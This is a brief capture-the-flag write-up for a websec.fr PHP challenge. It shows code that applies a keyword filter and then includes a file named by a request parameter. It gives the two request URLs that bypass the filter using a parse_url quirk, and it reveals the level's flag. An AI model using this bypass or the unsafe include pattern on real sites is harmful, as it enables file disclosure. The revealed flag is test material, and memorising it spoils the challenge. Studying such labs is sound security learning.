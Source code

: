 ```
<?php
                  parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
                  foreach ($query as $k => $v) {
                      if (stripos($v, 'flag') !== false)
                          die('You are not allowed to get the flag, sorry :/');
                  }

                  include $_GET['page'] . '.txt';
                  ?>
```

"parse_url returns false when t has ':' in its parameters"

STEP 1: http://websec.fr/level25/index.php?page=flag
OUTPUT: You are not allowed to get the flag, sorry :/

STEP 2: http://websec.fr/level25/index.php?page=flag&b=:80
OUTPUT: WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}
